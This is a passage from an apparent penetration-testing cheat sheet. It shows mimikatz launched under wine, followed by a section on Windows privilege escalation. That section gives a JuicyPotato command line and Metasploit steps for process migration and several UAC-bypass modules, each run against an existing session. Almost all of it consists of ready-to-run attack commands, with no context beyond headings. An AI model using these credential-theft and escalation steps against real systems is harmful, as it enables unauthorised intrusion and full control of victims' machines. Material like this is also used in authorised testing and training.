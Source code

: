 ### step 2
```bash
╰─>$ wine /usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
0009:err:winediag:SECUR32_initNTLMSP ntlm_auth was not found or is outdated. Make sure that ntlm_auth >= 3.0.25 is in your path. Usually, you can find it in the winbind package of your distribution.

  .#####.   mimikatz 2.2.0 (x86) #18362 May 13 2019 01:34:39
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # 

```

# Privilege Escalation of Windows 

### JuicyPotato
```bash
JuicyPotato.exe -l <PORT> -p c:\windows\system32\cmd.exe -t * 
```
### Migrate Process
```bash
msf > ps
msf exploit(bypassuac) > migrate <pid>
```

### Windows Escalate UAC Protection Bypass
```bash
msf > use exploit/windows/local/bypassuac
msf exploit(bypassuac) > set session 1
msf exploit(bypassuac) > exploit
```

### Windows Escalate UAC Protection Bypass (In Memory Injection)
```bash
msf > use exploit/windows/local/bypassuac_injection
msf exploit(bypassuac_injection) > set session 1
msf exploit(bypassuac_injection) > exploit
```
### Windows Escalate UAC Protection Bypass (Script Host Vulnerability)
```bash
msf > use windows/local/bypassuac_vbs
msf exploit(bypassuac_vbs) > set session 1
msf exploit(bypassuac_vbs) > exploit
```
### Windows Escalate UAC Execute RunAs
```bash
msf > use windows/local/ask
msf exploit(ask) > set session 1
msf exploit(ask) > exploit
```

